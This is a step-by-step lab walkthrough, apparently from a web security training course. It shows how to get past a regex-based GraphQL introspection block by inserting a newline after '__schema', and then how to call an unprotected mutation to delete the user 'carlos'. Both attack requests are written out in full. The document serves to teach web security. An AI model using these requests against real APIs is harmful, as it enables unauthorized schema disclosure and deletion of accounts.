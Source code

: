 1. Notice from the response that introspection is disallowed.
2. Modify the query to include a newline character after `__schema` and resend.
3. For example:
```
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```
1. Notice that the response now includes full introspection details. 
2. This is because the server is configured to exclude queries matching the regex `"__schema{"`, which the query no longer matches even though it is still a valid introspection query.


**Exploit the vulnerability to delete carlos**
1. Right-click the request and select **GraphQL > Save GraphQL queries to site map**.
2. Go to **Target > Site map** to see the API queries. 
	1. Use the **GraphQL** tab and find the `getUser` query. Right-click the request and select **Send to Repeater**.
    
3. In Repeater, send the `getUser` query to the endpoint you discovered.
	1. Notice that the response returns:
```
{
"data": {
"getUser": null
}
}
```
1. Click on the GraphQL tab and change the `id` variable to find `carlos`'s user ID. In this case, the relevant user ID is `3`.

2. In **Target > Site map**, browse the schema again and find the `deleteOrganizationUser` mutation.
	1. Notice that this mutation takes a user ID as a parameter.

4. Send the request to Repeater.
4. In Repeater, send a `deleteOrganizationUser` mutation with a user ID of `3` to delete `carlos` and solve the lab.
	1. For example:
```
/api?query=mutation+%7B%0A%09deleteOrganizationUser%28input%3A%7Bid%3A+3%7D%29+%7B%0A%09%09user+%7B%0A%09%09%09id%0A%09%09%7D%0A%09%7D%0A%7D
```

